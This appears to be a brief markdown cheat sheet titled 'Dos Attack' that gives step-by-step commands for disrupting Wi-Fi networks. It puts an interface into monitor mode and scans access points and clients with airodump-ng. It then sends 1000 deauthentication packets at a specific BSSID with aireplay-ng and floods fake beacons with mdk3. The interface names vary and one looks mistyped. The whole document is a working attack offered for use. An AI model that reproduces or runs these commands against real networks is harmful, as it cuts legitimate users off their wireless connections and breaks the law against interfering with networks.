 # Dos Attack

Start monitor mode
```bash
└──╼ #airmon-ng start wlx5
```
Scan All the access points
```bash
└──╼ #airodump-ng wlx5
```
show the clients connect to the network
```bash
└──╼ #airodump-ng -c 7 --bssid 28:DE:E5:BA:BC:C8  wlx
```
To dos attack || Send packs
```bash
└──╼ #aireplay-ng -0 1000 -a 28:DE:E5:BA:BC:C8 wlx502b73a0015b

```
Fake flood wireless networks
```bash
mdk3 walan0man b -c 5
```
